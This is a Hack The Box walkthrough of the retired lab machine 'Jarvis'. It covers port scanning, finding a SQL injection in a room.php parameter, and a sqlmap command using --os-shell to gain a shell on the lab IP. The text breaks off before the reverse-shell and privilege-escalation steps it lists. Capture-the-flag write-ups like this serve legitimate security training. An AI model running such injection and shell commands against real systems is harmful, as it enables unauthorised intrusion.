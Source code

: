 # Hack The Box - Jarvis walkthrough
![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/jarvis.png?raw=true)

This walkthrough is about the retired Jarvis machine of Hack The box. </br>
It is a Linux based machine. </br>
This machine has a static IP address <10.10.10.143> </br>
It was a nice bit easy machine. </br>
</br>
You have to found **user.txt** and **root.txt** flag. </br> 

## Penetration Methodology

* **Scanning**
  * open ports and services
* **Enumeration**
  * Enumerating the website about vulnerablities
* **Exploitation**
  * SQLI
  * exploitation using sqlmap
  * os-shell with sqlmap
  * machine access with Reverse-shell
* **Post Exploitation**
  * getting user access
  * privelage escalation from user to root
  
Now start pentesting the **Jarvis** machine. </br>

## Checking for open ports and services

We used **nmap** for checing the open ports and what services are running.
![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/nmap.png)

As we can see that port **22** and **80** are open.

**Now start enumerating the website**

When we reach the website we got a page like this </br>
![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/page.png)

## Enumerating the Website

**While enumerating the website after some time we found a page room.php** </br>

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/sql_vul_room.png)

**This seems to be sql vulnerable** --> `<10.10.10.143/room.php?cod=1>` 

## Exploitation using sqlmap

Then we tried **sqlmap** with **--os-shell**
**using this** `<sqlmap -u http://10.10.10.143/room.php?cod=1 --os-shell>`

![]()

